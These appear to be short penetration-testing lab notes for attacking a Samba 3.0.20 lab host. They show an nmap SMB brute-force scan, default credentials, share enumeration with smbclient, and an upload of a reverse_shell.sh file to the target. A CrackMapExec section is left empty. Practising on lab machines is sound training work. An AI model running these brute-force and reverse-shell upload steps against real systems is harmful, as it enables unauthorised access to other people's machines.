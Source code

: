 
## Quiz 

## Lab

```
Local IP Address: 10.10.80.2/22
Remote IP Address: 10.4.23.177
```

```
nmap --script=smb-brute 10.4.23.177 

msfadmin:msfadmin
```

```
smbclient -L 10.4.23.177 -U msfadmin 

print$          Disk      Printer Drivers
tmp             Disk      oh noes!
opt             Disk      
IPC$            IPC       IPC Service (d1d6a9361621 server (Samba 3.0.20-Debian))
ADMIN$          IPC       IPC Service (d1d6a9361621 server (Samba 3.0.20-Debian))
msfadmin        Disk      Home Directories

```


```
smbclient //10.4.23.177/msfadmin -U msfadmin%msfadmin

smbclient //10.4.23.177/msfadmin -c 'put /root/Desktop/reverse_shell.sh .\vulnerable\reverse_shell.sh' msfadmin -U msfadmin
```

#### Using crackmepsexec

https://github.com/BlWasp/CME_cheatSheet

```

```
